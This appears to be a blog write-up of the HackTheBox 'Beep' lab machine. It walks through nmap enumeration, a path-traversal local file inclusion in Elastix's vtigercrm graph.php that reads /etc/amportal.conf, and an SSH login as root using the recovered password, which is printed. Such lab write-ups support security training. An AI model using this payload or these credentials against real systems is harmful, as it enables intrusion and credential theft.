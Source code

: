 ```yaml
---
title: "HackTheBox - Beep"
categories: [HackTheBox, Easy]
tags: [Linux,Easy,Web,OSCP]
mermaid: true
image: https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-14-HackTheBox-Beep/2021-12-14-HackTheBox-Beep%2012:51:14.png

---
```


This box was an easy box from HackTheBox. It's OS is Linux and the entry point is with Web App. We have a vulnerable version of elastix installed on the server. Which we can do a LFI and get root creds. After that just login as root in the ssh. Easy.

I did not get an auto exploit for this because it's really easy to do.

# Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 80)
    B --> C[Elastix]
    C --> |LFI| D[Root Creds]
    D --> |SSH| E[Root Shell]
```

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.75
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-14-HackTheBox-Beep/2021-12-14-HackTheBox-Beep%2008:54:59.png)

## Port 80

We try to open it on the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-14-HackTheBox-Beep/2021-12-14-HackTheBox-Beep%2008:54:39.png)

We search for exploit on elastix and found [this](https://www.exploit-db.com/exploits/37637) one

A LFI in this path

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

And we found some user and passwords

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-14-HackTheBox-Beep/2021-12-14-HackTheBox-Beep%2012:45:50.png)

jEhdIekWmdjE

# Root SSH

And we become root

Easy, easy!

```sh
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 10.10.10.7
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-14-HackTheBox-Beep/2021-12-14-HackTheBox-Beep%2012:48:27.png)